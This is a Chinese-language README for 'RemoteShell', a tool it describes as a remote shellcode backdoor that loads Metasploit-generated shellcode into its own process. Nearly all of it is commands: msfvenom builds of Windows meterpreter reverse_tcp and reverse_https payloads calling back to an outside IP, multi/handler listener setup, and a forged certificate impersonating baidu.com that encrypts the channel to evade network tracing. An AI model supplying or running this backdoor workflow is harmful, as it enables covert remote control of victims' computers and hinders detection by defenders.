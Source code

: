 # RemoteShell 远程Shell加载工具

![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)

这是一款远程ShellCode反弹执行后门，该工具可动态加载MSF生成的shellcode到自身进程内。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.93.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.93.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.93.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```





